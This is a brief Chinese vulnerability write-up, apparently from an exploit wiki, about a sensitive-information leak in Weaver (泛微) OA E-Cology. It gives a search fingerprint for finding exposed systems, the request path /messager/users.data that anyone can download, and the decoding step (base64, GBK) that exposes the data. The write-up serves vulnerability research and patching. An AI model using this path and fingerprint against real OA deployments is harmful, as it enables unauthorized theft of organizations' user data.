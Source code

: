 # 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

<a-checkbox checked>泛微OA E-Cology</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="泛微-协同商务系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184604856.png)

验证POC

```php
/messager/users.data
```

![img](/assets/PeiQi-Wiki/img/1646043440450-c69abe9a-4e26-4d92-b059-4e1e74139dc8.png)



base64 GBK解码即可获取OA中的敏感数据